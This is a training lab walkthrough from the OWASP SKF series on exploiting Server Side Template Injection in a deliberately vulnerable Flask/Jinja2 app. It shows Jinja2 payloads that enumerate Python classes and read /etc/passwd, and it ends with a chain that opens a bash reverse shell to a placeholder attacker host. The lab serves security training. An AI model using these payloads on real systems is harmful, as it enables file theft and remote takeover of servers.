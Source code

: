 # Server Side Template Injection - SSTI

## Running the app on Docker

```
$ sudo docker pull blabla1337/owasp-skf-lab:ssti
```

```
$ sudo docker run -ti -p 127.0.19.1:9000:9000 blabla1337/owasp-skf-lab:ssti
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

#### Step 1

As with all reconnaissance we first have to determine the type of application that is running and the programming language it was written in. This could easily be achieved by setting up an intercepting proxy and study the requests and responses made by the application to the web sever.

Also, trying to trigger error messages on the application can also give away a lot of information about the application under test.

In the screenshot below in the response of the we find the python version that is running, accompanied with the server "Werkzeug". This is a clear indicator the web application might be running python flask, and python flask typically runs with the templating engine, jinja2.

![](../../.gitbook/assets/ssti1.png)

#### Step2

Now that we have determined the type of application that is running let's try to see if any user supplied input is accepted by the application. The input from the URL is being processed directly in the application and outputted in the HTML. So now we have control of whatever is being reflected on the page. How do we now determine if the application might be susceptible to Server Side Template Injection?

First we need to do some investigation on how the syntax works, so we dive into the docs!

{% hint style="info" %}
[http://jinja.pocoo.org/docs/2.10/templates/](http://jinja.pocoo.org/docs/2.10/templates/)
{% endhint %}

{% ... %} for Statements {{ ... }} for Expressions to print to the template output {# ... #} for Comments not included in the template output # ... ## for Line Statements \`\`\`

Now, we want to use expressions to print to the template output to see if our payloads are interpreted and executed on the server-side by the templating engine. The most ideal way to do so is to inject mathematical statements.

As found in the docs:

```
{{ 1 + 1 }} is 2.
```

Let's see what happens of we inject the expression with the operator described above!

![](../../.gitbook/assets/screen-shot-2019-01-10-at-13.13.36.png)

## Exploitation

A nice website with write-ups about different type of payloads on template engines is found here:\
[\
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)

In python `__mro__` or `mro()` allows us to go back up the tree of inherited objects in the current Python environment, and `__subclasses__` lets us come back down. Read the [docs](https://docs.python.org/3/library/stdtypes.html?highlight=subclasses#class.__mro__) for more. Basically, you can crawl up the inheritance tree of the known objects using `mro`, thus accessing _every class loaded_ in the current python environment

Now, lets find some usefull injections for Jinja2.\
In order to build our exploit this here already looks pretty promising:

```python
{{ ''.__class__.__mro__[2].__subclasses__() }}
```

After injecting the payload we now have a list of all the different classes loaded in our target application. Let's see if we can use it to read some information from the file system

![](../../.gitbook/assets/screen-shot-2019-01-10-at-17.59.05.png)

On position 40 whilst iterating over the different loaded classes we find the "read" function. Let's use this function to read the "/etc/passwd" file from the filesystem.

```python
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
```

![](../../.gitbook/assets/screen-shot-2019-01-10-at-17.59.36.png)

As mentioned before this attack can ultimately be used also to gain remote code execution on the target application. In order to do so we first would need to set up a listener and than inject the following payloads

```
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/evilconfig.cfg', 'w').write('from subprocess import check_output\n\nRUNCMD = check_output\n') }} # evil config
{{ config.from_pyfile('/tmp/evilconfig.cfg') }}  # load the evil config
{{ config['RUNCMD']('bash -i >& /dev/tcp/xx.xx.xx.xx/8000 0>&1',shell=True) }} # connect to evil host
```

## Additional sources

[https://portswigger.net/blog/server-side-template-injection](https://portswigger.net/blog/server-side-template-injection)

[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20injections#dump-all-used-classes](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20injections#dump-all-used-classes)

[https://pequalsnp-team.github.io/cheatsheet/flask-jinja2-ssti](https://pequalsnp-team.github.io/cheatsheet/flask-jinja2-ssti)
